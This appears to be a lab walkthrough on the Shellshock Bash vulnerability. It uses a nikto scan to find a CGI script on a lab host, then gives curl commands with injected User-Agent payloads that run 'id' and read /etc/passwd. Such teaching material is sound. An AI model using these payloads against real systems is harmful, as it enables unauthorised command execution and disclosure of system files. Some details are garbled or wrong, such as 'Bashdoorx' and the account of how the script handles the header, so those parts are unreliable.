 Shellshock, also known as the Bashdoorx bug, is a security vulnerability in the Unix Bash shell. Discovered in 2014, it allows attackers to execute arbitrary commands by exploiting improperly handled environment variables. The vulnerability is caused by Bash incorrectly processing trailing strings after function definitions in environment variables, which can be used to inject and execute commands.
Shellshock can be detected by vulnerability scanning tools such as Nikto that check for Apache versions and the cgi_mod module (with CGI folder). Check for this vulnerability by noticing that a server uses an old Apache version and cgi_mod (with CGI folder) using nikto, a vulnerability scanner tool.

To displays the help information for Nikto, providing details about the various options and how to use them use the following command in FINAL machine:

`nikto -h`

Use:
`nikto -host 192.168.10.100`
![[Pasted image 20250728004905.png]]
After running a quick nikto scan to 192.168.10.100, the output shows that this machine might be vulnerable to Shellshock since it detects a cgi_bin/ directory containing a script called "stats".
The presence of the stats script in this directory indicates it is a CGI script designed to be executed by the server to generate dynamic content.

The Open Source Vulnerability Database (OSVDB) entry 3092 references CGI scripts that may allow shell command execution.

This makes _cgi-bin/stats_ a potential target for exploitation.
## Manual Exploitation

To test if the server is vulnerable, send a request using curl to the target machine, and try to execute the id command.

Use the following command to send the HTTP request:
`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://192.168.10.100/cgi-bin/stats`

You can dynamically execute and display different outputs based on the content of the User-Agent header. The script checks if the User-Agent header contains the string "id" and executes the corresponding command.
# Command Injection Attack
You can use another command to inject on the server. To display user information, use the following command:

`curl -H "User-Agent: () { :; }; /bin/bash -c 'cat /etc/passwd'" http://192.168.10.100/cgi-bin/stats`
This command is an example of exploiting the Shellshock vulnerability by injecting a malicious User-Agent header to execute arbitrary commands on a vulnerable server.



